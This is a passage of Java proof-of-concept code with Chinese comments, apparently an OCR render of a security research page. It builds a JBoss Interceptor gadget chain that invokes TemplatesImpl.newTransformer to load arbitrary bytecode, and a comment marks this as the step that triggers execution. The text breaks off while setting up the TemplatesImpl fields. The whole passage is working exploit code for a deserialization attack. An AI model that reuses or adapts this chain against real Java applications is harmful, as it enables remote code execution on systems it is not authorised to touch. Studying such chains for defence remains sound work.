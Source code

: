```
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.*;

public class POC {
    public static void main(String[] args) throws Throwable {
        // 准备 TemplatesImpl
        TemplatesImpl templatesImpl = getTemplatesImpl();
        // 准备 MethodMetadata
        HashSet<Object> hsSet = new HashSet<>();
        hsSet.add(InterceptionType.POST_ACTIVATE);
        Constructor<DefaultMethodMetadata> defaultMethodMetadataConstructor = DefaultMethodMetadata.class.getDeclaredConstructor(Set.class, MethodReference.class);
        defaultMethodMetadataConstructor.setAccessible(true);
        Method newTransformer = TemplatesImpl.class.getMethod(&#34;newTransformer&#34;);
        MethodMetadata defaultMethodMetadata = (MethodMetadata) defaultMethodMetadataConstructor.newInstance(hsSet,
                MethodReference.of(newTransformer, true));
        // 准备 InterceptorInvocation$InterceptorMethodInvocation
        Class<?> interceptorMethodInvocationClazz = Class.forName(&#34;org.jboss.interceptor.proxy.InterceptorInvocation$InterceptorMethodInvocation&#34;);
        Constructor<?> interceptorMethodInvocationDeclaredConstructor = interceptorMethodInvocationClazz.getDeclaredConstructor(InterceptorInvocation.class, Object.class, MethodMetadata.class);
        interceptorMethodInvocationDeclaredConstructor.setAccessible(true);
        // InterceptorInvocation interceptorInvocationObj = (InterceptorInvocation) getObjectByUnsafe(InterceptorInvocation.class);
        InterceptorInvocation interceptorInvocationObj = new InterceptorInvocation(templatesImpl, new SimpleInterceptorMetadata(null, false,  new HashMap<>()), InterceptionType.POST_ACTIVATE);
        org.jboss.interceptor.proxy.InterceptorInvocation.InterceptorMethodInvocation interceptorMethodInvocation = (org.jboss.interceptor.proxy.InterceptorInvocation.InterceptorMethodInvocation) interceptorMethodInvocationDeclaredConstructor.newInstance(interceptorInvocationObj, templatesImpl, defaultMethodMetadata);
        //        // 主动调用 invoke 方法
//        Method invokeMethod = o.getClass().getDeclaredMethod(&#34;invoke&#34;, InvocationContext.class);
//        invokeMethod.setAccessible(true);
//        invokeMethod.invoke(o, new Object[]{null});
        Collection<InterceptorInvocation<?>> interceptorInvocationObjLst = new ArrayList<>();
        interceptorInvocationObjLst.add(interceptorInvocationObj);
        SimpleInterceptionChain simpleInterceptionChain = new SimpleInterceptionChain(interceptorInvocationObjLst, null, templatesImpl, newTransformer);
        // 手动调用 invokeNextInterceptor 触发弹窗
        simpleInterceptionChain.invokeNextInterceptor(new InterceptorInvocationContext(simpleInterceptionChain, templatesImpl, newTransformer, null));
    }

//    // 通过 Unsafe 无视构造方法进行实例化
//    public static Object getObjectByUnsafe(Class myclazz) throws Exception {
//        Class<?> clazz = Class.forName(&#34;sun.misc.Unsafe&#34;);
//        Field theUnsafe = clazz.getDeclaredField(&#34;theUnsafe&#34;); // 因为 theUnsafe 使用 static 进行修饰, 在 static 代码块中进行初始化,
//        theUnsafe.setAccessible(true);
//        Unsafe o = (Unsafe) theUnsafe.get(null);
//        return o.allocateInstance(myclazz);
//    }

    public static TemplatesImpl getTemplatesImpl() throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        Field bytecodes = templates.getClass().getDeclaredField(&#34;_bytecodes&#34;); // 最终调用到 defineClass 方法中加载类字节码
        Field name = templates.getClass().getDeclaredField(&#34;_name&#34;); // 放置任意值
        Field tfactory = templates.getClass().getDeclaredField(&#34;_tfactory&#34;);
```